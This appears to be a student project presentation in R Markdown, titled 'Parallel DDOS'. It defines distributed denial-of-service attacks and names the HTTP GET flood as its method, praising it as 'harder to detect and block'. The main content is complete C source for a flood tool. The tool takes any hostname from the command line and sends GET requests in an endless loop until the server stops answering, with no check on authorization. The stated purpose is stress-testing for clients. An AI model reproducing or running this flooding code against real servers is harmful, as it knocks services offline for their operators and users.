 ```yaml
---
title: "Parallel DDOS"
author: "Alec Maier, Alex Alvarado, Kahlil Wehmeyer, Raphael Henrich"
output: 
  html_document:
    toc: true
    toc_float: true
---
```


# Meet the team

![](https://www.bandt.com.au/information/uploads/2018/11/Diverse-team-1260x840.jpg)



### Now that you've met them. Let's move onto the project! {-}

# What is a DDOS?

![](https://ruggedtooling.com/wp-content/uploads/2018/09/Botnet_Attack.png)

> A distributed denial-of-service (DDoS) attack occurs when multiple systems flood the bandwidth or resources of a targeted system, usually one or more web servers. Such an attack is often the result of multiple compromised systems (for example, a botnet) flooding the targeted system with traffic.

## Wait this sounds bad? What are you guys up to!?

![](https://www.xenonstack.com/images/insights/xenonstack-what-is-penetration-testing.png)

We aim to create an efficient and distributed DDOS that will allow for companies and clients to test how secure their systems are in the case of a **real** DDOS attack.

## Possible use case clients include:

- AWS
- Cloudfare
- Google
- Oracle
- IBM
- _The Chinese Government_
- Microsoft
- DigitalOcean
- and many more!


# Solution Design

## **Method**: HTTP Flood

Benefits:

- No malformed packets
- No spoofing
- No reflection
- Less bandwidth than alternatives
- Harder to detect and block

Attack Type: GET
Targets OSI layer #7

### Weaknesses

- BOT Test
- Web Application Firewalls
- Tricky to program

# So what does this all look like?

$$\downarrow Scroll \downarrow$$

\break

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
//#include <mpi.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netdb.h>
#include <arpa/inet.h>

const char *getIp(const char *hostname, char *restrict ip)
{
	struct in_addr **addr_list;
	struct hostent *host;
	int i;

	if ((host = gethostbyname(hostname)) == NULL) //return information about host
	{
		herror("gethostbyname");
		exit(0);
	}

	addr_list = (struct in_addr **)host->h_addr_list; //create address list from host info

	for (i = 0; addr_list[i] != NULL; i++)
	{
		strcpy(ip, inet_ntoa(*addr_list[i])); //choose ip from address list
	}

	printf("IP address: %s\n", ip);

	return ip;
}

int httpFlood(const char *ip, int port)
{

	int socket_desc;
	struct sockaddr_in server;
	char *message;

	socket_desc = socket(AF_INET, SOCK_STREAM, 0); //create socket
	if (socket_desc == -1)						   //above function returns -1 on socket error
	{
		printf("Could not create socket\n");
	}

	server.sin_addr.s_addr = inet_addr(ip); //setting ip address in struct
	server.sin_family = AF_INET;			//setting connection type in struct
	server.sin_port = htons(port);			//setting port number in struct

	if (connect(socket_desc, (struct sockaddr *)&server, sizeof(server)) < 0) //connect to ip address
	{
		printf("Could not connect\n");
		return 1;
	}

	printf("Connected\n");

	message = "GET / HTTP/1.1\r\n\r\n"; //HTTP GET message to get home page

	int true = 0;
	printf("Flooding\n");

	while (true == 0) //	infinite flood loop
	{
		if (send(socket_desc, message, strlen(message), 0) < 0) //break loop once connection is broken, aka. sever down
		{
			printf("Server down\n");
			return 1;
		}
	}
}

int main(int argc, char *argv[])
{
	char hostname[256];
	char ip[100];
	int port;

	if (argc == 2)
	{
		strcpy(hostname, argv[1]); //host name from command line
		port = 80;				   //atoi(argv[2]);  //port number can be retrieved from command line, for now it is default port 80
	}
	else
	{
		printf("Usage: ./filename {hostName}\n"); //incorrect number of arguments print out
		exit(0);
	}

	getIp(hostname, ip); //get ip address from host name

	httpFlood(ip, port); //flood ip address with HTTP GET requests

	return 0;
}
```

![](https://media.giphy.com/media/RyXVu4ZW454IM/giphy.gif)